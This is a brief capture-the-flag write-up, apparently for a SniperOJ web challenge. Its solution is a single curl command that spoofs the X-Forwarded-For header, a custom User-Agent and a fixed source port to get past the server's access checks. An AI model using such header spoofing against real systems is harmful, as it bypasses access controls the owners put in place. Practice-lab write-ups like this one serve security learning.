 #### Goals
 * Try to find the flag

#### Server Address
 * http://web.sniperoj.com:10006/

#### Solution
```
curl http://127.0.0.1/ \
    --header 'X-Forwarded-For:127.0.0.1' \
    --header 'User-Agent:SniperOJ-Web-Broswer' \
    --local-port 23333
```

#### Other Solutions
 * 

